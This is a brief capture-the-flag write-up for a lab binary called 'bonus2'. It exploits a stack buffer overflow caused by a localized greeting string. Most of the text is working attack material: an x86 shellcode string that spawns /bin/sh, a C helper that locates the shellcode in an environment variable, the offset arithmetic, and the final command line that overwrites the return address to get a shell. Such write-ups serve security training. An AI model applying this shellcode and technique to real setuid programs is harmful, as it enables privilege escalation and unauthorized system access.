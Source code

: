this is a simple overflow, so we will use https://wiremask.eu/tools/buffer-overflow-pattern-generator/ to find the offset to overwrite the return address.
without setting LANG the tool doesn't find a offset, but with LANG=nl it finds it at 23 bytes.

like the previous challenge we will put the shellcode into a environment variable:
`export code=$(python -c "print('\x31\xc0\x31\xdb\xb0\x06\xcd\x80\x53\x68/tty\x68/dev\x89\xe3\x31\xc9\x66\xb9\x12\x27\xb0\x05\xcd\x80\x31\xc0\x50\x68//sh\x68/bin\x89\xe3\x50\x53\x89\xe1\x99\xb0\x0b\xcd\x80')")`
get the address of the shellcode:

```c
#include <stdio.h>
#include <stdlib.h>
int main(int argc, char \*\*argv) {
printf("%p\n", getenv(argv[1]));
}
```

`./a.out code` -> `0xbfffff72`

the overflow happens because the `greetuser` copy 72 bytes from (argv1 + argv2) into a smaller buffer of 62 bytes where the greeting word is already copied: `72 - 62 + 13 = 23` (13 is the `Goedemiddag! ` greeting word length)
so 23 bytes in argv2 will overwrite the return address of the stack frame.
`LANG=nl ./bonus2 $(python -c "print 'i' * 40") $(python -c "print 'i' * 23 + '\x72\xff\xff\xbf'")`
gives us a shell
